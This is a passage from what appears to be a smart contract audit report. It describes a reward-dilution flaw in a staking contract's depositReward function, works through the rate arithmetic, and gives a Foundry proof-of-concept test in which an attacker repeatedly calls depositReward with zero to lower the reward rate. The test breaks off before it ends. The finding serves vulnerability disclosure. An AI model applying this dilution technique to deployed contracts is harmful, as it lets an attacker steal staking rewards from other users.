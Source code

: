 Lets say 10 more days pass and a malicious actor calls the depositRewards() function with the reward parameter = 0.

remaining = 1_728_000
leftover = 14_146 * 1_728_000 = 24_444_288_000
rewardRate = 24_444_288_000 / 2_592_000 ≈ 9_430

A malicious actor can dilute the rewards again, as we can see the rewardRate is less than what it is supposed to be for a reward deposit of 30_000e6 (should be 11_574 as per the first calculations). A malicious actor can dilute rewards until there is a period where a lot more rewards will be distributed, and make a big deposit for that period, effectively stealing rewards. Once the rewardRate gets normalized (for example he increases the rewardRate up until a certain period, then stakes in that reward period, and receives much bigger rewards, than he is supposed to) he can start over, and keep diluting rewards forever.

## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb)
After following the steps in the above linked [gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb) add the following test to the AuditorTests.t.sol file:

```solidity
    function test_DiluteRewards() public {
        vm.startPrank(ZVL);
        uint256 duration = 30 days;
        stZVE.addReward(address(mockUSDC), duration);
        vm.stopPrank();

        vm.startPrank(simulateYLD);
        mockUSDC.mint(simulateYLD, 30_000e6); // this represent 30_000 USDC tokens to be distributed in the next 30 days
        mockUSDC.approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(address(mockUSDC), 30_000e6);
        vm.stopPrank();

        vm.startPrank(attacker);
        console2.log("Initial rewards per second per token: ", getRewardRate());
        /// @notice 10 days has passed
        skip(864_000);
        console2.log("Rewards per token per second after 10 days have passed: ", getRewardRate());
        stZVE.depositReward(address(mockUSDC), 0);
        console2.log("Rewards per token per second after 10 days have passed, and rewards have been diluted: ", getRewardRate());
        vm.stopPrank();

        vm.startPrank(simulateYLD);
        skip(1_728_000);
        mockUSDC.mint(simulateYLD, 30_000e6); // this represent 30_000 USDC tokens to be distributed in the next 30 days
        stZVE.depositReward(address(mockUSDC), 30_000e6);
        vm.stopPrank();

        vm.startPrank(attacker);
        /// @notice above we skip 20 days, this represents the new reward period for the system (a whole reward period being 30 days)
        console2.log("Rewards per second per token after 20 more days have passed and a new deposit have been made: ", getRewardRate());
        /// @notice 10 days has passed
        skip(864_000);
        console2.log("Rewards per token per second after 10 more days have passed: ", getRewardRate());
        stZVE.depositReward(address(mockUSDC), 0);
        console2.log("Rewards per token per second after more 10 days have passed, and rewards have been diluted: ", getRewardRate());
        vm.stopPrank();
```